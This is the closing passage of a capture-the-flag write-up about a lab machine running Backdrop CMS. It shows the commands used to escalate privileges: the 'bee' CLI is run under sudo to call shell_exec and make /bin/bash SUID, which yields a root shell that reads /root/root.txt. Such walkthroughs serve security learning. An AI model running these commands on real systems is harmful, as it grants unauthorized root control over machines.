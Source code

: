 Investigating about this cli, we can see that includes commands to interact with backdrop sites
```sh
bee --help
```

One of those commands can allow us to execute php code, we can use sudo to give SUID permissions to the bash and that would give us a shell with root permissions

https://gtfobins.github.io/gtfobins/bash/

![Image 11](11.png)

The eval command can use the shell_exec php function to execute shell commands, we need to pass the path to the backdrop installation in --root parameter  

```sh
sudo bee eval --root=/var/www/html/ --site=default 'shell_exec("chmod +s /bin/bash");'
```

![Image 12](12.png)

verify that the bash has the SUID bit set and you can execute the bash
```sh
/bin/bash -p
```
Congratulations! You are now root, here's your flag:

![Image 13](13.png)

```sh
cat /root/root.txt
```

### Conclusion 
This machine covers topics like Git repository leaks, Arbitrary php code execution and RCE in CMS

<mark>Hope you enjoy it and Happy Hacking!</mark>

